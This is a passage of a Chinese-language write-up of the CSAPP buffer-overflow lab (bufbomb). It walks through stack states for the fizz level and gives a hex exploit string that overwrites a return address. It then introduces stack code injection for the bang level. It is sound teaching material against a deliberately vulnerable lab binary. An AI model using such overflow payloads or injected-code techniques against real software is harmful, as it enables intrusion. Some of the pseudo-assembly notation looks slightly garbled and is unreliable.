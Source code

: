 ```cpp
    (%esp) = 0x1;
    call <__printf_chk@plt>;
    (%esp) = -x1;
    call <validate>;
}else{
    (%esp) + 0x8 = %eax;
    (%esp) + 0x4 = 0x804a340;
    (%esp) = 0x1;
    call <__printf_chk@plt>;
}
(%esp) = 0;
call <exit@plt>;
```
下面是栈在四个时刻的状态

状态一：
getbuf函数执行ret时，把0x08048c42(即fizz函数的地址)取出作为转跳目标，随后esp-=0x4之后的状态，此时fizz函数中一条一句都没有执行

状态二：
执行了图中1)，2)两条语句，把esp的值存放在了之前0x08048c42的位置,并使esp,ebp两个寄存器的值为此处的地址

状态三：
又执行了图中3)语句，esp寄存器的值变了

状态四：
又执行了图中4)语句，将寄存器ebp指向的地址偏移0x8处的值存入寄存器eax

随后将寄存器eax中的值与cookie值进行比较，本地汇编代码中可以直接看到cookie值是0x804d108，但是实际传入的值应该要与username匹配

所以level1.txt在level0.txt的基础上，尾部多填入00 00 00 00 cookie(四字节)就好了
<img width="506" alt="image" src="https://github.com/RaDsZ2z/CSAPP/assets/129292565/3d2b7c13-7caa-4d77-abac-f1ee0afd45a4">

```cpp
/*
level1.txt:
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 42 8c 04 08
00 00 00 00 69 04 3d 3d
cat level1.txt|./hex2raw|./bufbomb -u random
*/
```

## <div id="level2">8.Level 2:Firecracker(15 pts)</div>
一种更复杂的缓冲区攻击形式涉及提供一个对实际机器指令进行编码的字符串。然后，利用漏洞攻击字符串用堆栈上这些指令的起始地址覆盖返回指针。当调用函数（在本例中为getbuf）执行其ret指令时，程序将开始执行堆栈上的指令，而不是返回。有了这种形式的攻击，你几乎可以让程序做任何事情。放置在堆栈上的代码称为利用漏洞代码。不过，这种类型的攻击很棘手，因为必须将机器代码放到堆栈上，并将返回指针设置为该代码的开头。

BUFBOMB中的bang函数有如下C语言代码
```C
int global_value = 0;
void bang (int val){
    if(global_value == cookie){
        printf("Bang!: You set global_value to 0x%x\n," global_value);
        validate(2);
    }else
        printf("Misfire: global_value = 0x%x\n", global_value);
    exit(0);
}
```
与级别0和1类似，您的任务是让BUFBOMB执行bang的代码，而不是返回测试。但是，在此之前，必须将全局变量global_value设置为用户ID的cookie。您的攻击代码应该设置global_value，将bang的地址推送到堆栈上，然后执行ret指令，导致跳转到bang的代码。